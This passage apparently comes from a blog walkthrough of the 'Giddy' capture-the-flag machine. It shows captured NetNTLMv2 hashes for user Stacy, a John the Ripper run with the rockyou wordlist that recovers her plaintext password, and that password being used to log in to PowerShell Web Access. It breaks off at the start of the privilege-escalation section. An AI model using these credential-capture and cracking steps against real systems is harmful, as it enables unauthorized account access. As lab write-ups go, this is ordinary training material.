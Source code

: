 Stacy::GIDDY:1122334455667788:5dabf08a9de326467d01a72d9ba6f5b8:0101000000000000d8ce52d902ced4017897364fc904360d00000000020000000000000000000000
Stacy::GIDDY:1122334455667788:75d8f9037b40c122710c63b8ec08ffa6:0101000000000000f8965ad902ced4014cf4bac6d908990700000000020000000000000000000000
Stacy::GIDDY:1122334455667788:740c59b5f734961f36bba56c5372ffd0:01010000000000006bad62d902ced40133b27c1378cc3db400000000020000000000000000000000
Stacy::GIDDY:1122334455667788:76eec2d84159141f7d182858182551c4:010100000000000015396bd902ced4010b71ac2a4d8cf7c300000000020000000000000000000000
Stacy::GIDDY:1122334455667788:d15bc192d677e500da515fd590225bb1:0101000000000000a1c473d902ced4015cc71ed4942c2b6f00000000020000000000000000000000
{% endhighlight %}

This time, we got username "GIDDY/STACY" and its NTHASH.<br>
By using john the ripper, we can achieve a password for user stacy.

{% highlight shell %}
root@kali:~# john pw.txt_netntlmv2 --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 14 password hashes with 14 different salts (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xNnWo6272k7x     (Stacy)
xNnWo6272k7x     (Stacy)
xNnWo6272k7x     (Stacy)
xNnWo6272k7x     (Stacy)
xNnWo6272k7x     (Stacy)
xNnWo6272k7x     (Stacy)
xNnWo6272k7x     (Stacy)
xNnWo6272k7x     (Stacy)
xNnWo6272k7x     (Stacy)
xNnWo6272k7x     (Stacy)
xNnWo6272k7x     (Stacy)
xNnWo6272k7x     (Stacy)
xNnWo6272k7x     (Stacy)
xNnWo6272k7x     (Stacy)
14g 0:00:00:07 DONE (2019-02-26 21:01) 1.806g/s 348820p/s 4883Kc/s 4883KC/s xevood..wtkate
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed
{% endhighlight %}

Now, we have username and password to login to Powershell Web Access.

![placeholder](https://inar1.github.io/public/images/2019-02-27/2019-02-26-21-06-26.png)

Since we have powershell, we can easily access to user.txt.

![placeholder](https://inar1.github.io/public/images/2019-02-27/2019-02-26-21-12-40.png)

### 3.Getting Root
After logged in the Powershell console, we can find that there is an interesting file

![placeholder](https://inar1.github.io/public/images/2019-02-27/2019-02-27-12-56-50.png)
